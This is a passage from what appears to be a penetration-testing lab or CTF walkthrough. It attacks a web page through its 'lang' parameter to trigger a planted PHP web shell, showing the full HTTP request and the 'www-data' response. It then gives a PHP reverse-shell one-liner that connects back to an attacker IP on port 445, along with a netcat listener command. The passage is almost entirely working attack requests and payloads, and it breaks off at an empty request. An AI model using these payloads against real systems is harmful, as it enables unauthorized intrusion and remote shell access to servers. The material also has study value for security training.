 ### trigger the web shell
payload: `/var/ftp/pub/shell.php&cmd=whoami&password=lol`

#### request
```http
POST /secret_information/ HTTP/1.1
Host: 192.168.124.14
Upgrade-Insecure-Requests: 1
User-Agent: asd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

lang=/var/ftp/pub/shell.php&cmd=whoami&password=lol
```

#### response
```http
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 16:05:14 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 155
Connection: close
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

www-data
```
Yay! Shell!

### getting a reverse shell
payload: ```php -r '$sock=fsockopen("192.168.49.124",445);exec("/bin/sh -i <&3 >&3 2>&3");'```

#### start listener on the attacker machine
```bash
nc -lvp 445
listening on [any] 445 ...
```

#### trigger reverse connection
```http
POST /secret_information/ HTTP/1.1
Host: 192.168.124.14
Upgrade-Insecure-Requests: 1
User-Agent: asd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 282

```